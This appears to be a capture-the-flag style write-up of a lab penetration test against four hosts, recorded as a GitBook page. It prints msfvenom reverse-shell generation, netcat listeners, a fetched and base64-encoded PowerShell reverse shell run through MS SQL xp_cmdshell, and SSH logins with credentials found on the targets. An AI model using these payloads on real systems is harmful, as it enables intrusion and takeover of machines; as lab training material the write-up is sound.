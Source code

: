 # BB1

## Prework

### Connect to VPN

```bash
sudo openvpn black-box-penetration-test-1.ovpn
```

### Scan network

```bash
sudo nmap -sn 172.16.64.0/24 --exclude 172.16.64.10 -oN hostAlive.nmap &&
cat hostAlive.nmap | grep for | awk {'print $5'} > ips.txt &&
sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oX portScan.xml &&
nmap2md.sh portScan.xml | xclip| xclip
```

## Scanner

> Generated on **Sun Jul 11 13:40:33 2021** with `nmap 7.91`.

```bash
nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oX portScan.xml
```

## Hosts Alive \(4\)

| Host | OS | Accuracy |
| :--- | :--- | :--- |
| 172.16.64.101 | Linux 3.12 | 95% |
| 172.16.64.140 | Linux 3.12 | 95% |
| 172.16.64.182 | Linux 3.12 | 95% |
| 172.16.64.199 | Microsoft Windows 10 | 96% |

## Open Ports and Running Services

### 172.16.64.101 \(Linux 3.12 - 95%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 22/tcp | open | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 8080/tcp | open | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 9080/tcp | open | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 59919/tcp | open | http | Apache httpd 2.4.18 |

{% tabs %}
{% tab title="Dirbuster" %}

{% endtab %}

{% tab title="" %}

{% endtab %}

{% tab title="Report" %}
* Target URL: [http://172.16.64.101:8080](http://172.16.64.101:8080)
* File Extension: \* 
* File with list of dirs/files: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/dirbuster-101-1.png)

![](../../.gitbook/assets/dirbuster-101-2.png)

#### Gaining access

{% hint style="info" %}
Trying to access unsuccessfully for a couple of times will get you redirected to [**http://172.16.64.101:8080/host-manager/html**](http://172.16.64.101:8080/host-manager/html), where the following information is shown:

```text
<role rolename="admin-gui"/>
<user username="tomcat" password="s3cret" roles="admin-gui"/>
```

[**http://172.16.64.101:8080/manager/html**](http://172.16.64.101:8080/manager/html) ****allows you to upload a war file.
{% endhint %}

#### Generate your reverse shell with `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.64.10 LPORT=1234 -f war > shell.war
```

```bash
nc -lvp 1234
```

{% hint style="success" %}
**Flag encountered!**

```bash
tomcat8@xubuntu:/home/developer$ cat flag.txt
Congratulations, you got it!
tomcat8@xubuntu:/home/adminels/Desktop$ cat flag.txt 
You did it!
```
{% endhint %}

### 172.16.64.140 \(Linux 3.12 - 95%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 80/tcp | open | http | Apache httpd 2.4.18 |

#### dirbuster

![](../../.gitbook/assets/dirbuster-140-1.png)

![](../../.gitbook/assets/dirbuster-140-2.png)

{% hint style="info" %}
**Discovering info**

On this url we find the following connection parameters for a SQL database server: [**http://172.16.64.140:80/project/backup/test/sdadas.txt**](http://172.16.64.140:80/project/backup/test/sdadas.txt):

```text
Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt
```
{% endhint %}

{% hint style="success" %}
**Flag encountered!**

Under [**http://172.16.64.140/project/354253425234234/flag.txt**](http://172.16.64.140/project/354253425234234/flag.txt) we find the following content:

```text
Congratulations, you exploited this machine!
Now continue to others.
```
{% endhint %}

### 172.16.64.182 \(Linux 3.12 - 95%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 22/tcp | open | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |

{% hint style="info" %}
**We use the credentials we discovered while exploring 172.16.64.199:**

```bash
sshpass -p dF3334slKw ssh developer@172.16.64.182
```
{% endhint %}

{% hint style="success" %}
**Flag encountered**!

```text
sshpass -p dF3334slKw ssh developer@172.16.64.182
developer@xubuntu:~$ find . | grep flag
developer@xubuntu:~$ cat flag.txt 
Congratulations, you got it!
```
{% endhint %}

### 172.16.64.199 \(Microsoft Windows 10 - 96%\)

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| 135/tcp | open | msrpc | Microsoft Windows RPC |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn |
| 445/tcp | open | microsoft-ds |  |
| 1433/tcp | open | ms-sql-s | Microsoft SQL Server 2014 12.00.2000.00; RTM |
| 49664/tcp | open | msrpc | Microsoft Windows RPC |
| 49665/tcp | open | msrpc | Microsoft Windows RPC |
| 49666/tcp | open | msrpc | Microsoft Windows RPC |
| 49667/tcp | open | msrpc | Microsoft Windows RPC |
| 49668/tcp | open | msrpc | Microsoft Windows RPC |
| 49669/tcp | open | msrpc | Microsoft Windows RPC |
| 49670/tcp | open | msrpc | Microsoft Windows RPC |
| 49943/tcp | open | ms-sql-s | Microsoft SQL Server 2014 12.00.2000 |

#### Attacking MS SQL Server

```bash
# Grab payload
wget https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1;

# Substitute ip and port
sed -i 's/127.0.0.1/172.16.64.10/; s/413/1234/' mini-reverse.ps1;

# Encode payload
cat mini-reverse.ps1 | iconv -f ascii -t utf16 | tail -c +3 | base64 -w 0 > encoded_payload;

# We'll use this payload in our shell
cat encoded_payload 
```

```bash
# Leave nc opened in one terminal
nc -l 1234
```

```bash
# Connect to database server and inject reverse shell via powershell
mssql-cli -S 172.16.64.199 -U fooadmin -P fooadmin
> enable_xp_cmdshell
> RECONFIGURE
> xp_cmdshell whoami
> xp_cmdshell powershell -e <payload_from_previous_step>
```

{% hint style="success" %}
**Flag encountered!**

```text
cd c:\
where /r c:\ flag.txt
cd c:\Users\AdminELS\Desktop\
cat flag.txt
Congratulations! You exploited this machine! 
```
{% endhint %}

{% hint style="info" %}
`ssh://developer:dF3334slKw@172.16.64.182:22` **seems like a ssh connection string:**

```
PS C:\Users\AdminELS\Desktop> cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAlGWzjgKVHcpaDFvc6877t6ZT2ArQa+OiFteRLCc6TpxJ/lQFEDtmxjTcotik7V3DcYrIv3UsmNLjxKpEJpwqELGBfArKAbzjWXZE0VubmBQMHt4WmBMlDWGcKu8356blxom+KR5S5o+7CpcL5R7UzwdIaHYt/ChDwOJc5VK7QU46G+T9W8aYZtvbOzl2OzWj1U6NSXZ4Je/trAKoLHisVfq1hAnulUg0HMQrPCMddW5CmTzuEAwd8RqNRUizqsgIcJwAyQ8uPZn5CXKWbE/p1p3fzAjUXBbjB0c7SmXzondjmMPcamjjTTB7kcyIQ/3BQfBya1qhjXeimpmiNX1nnQ== rsa-key-20190313###ssh://developer:dF3334slKw@172.16.64.182:22############################################################################################################################################################################################
```
{% endhint %}

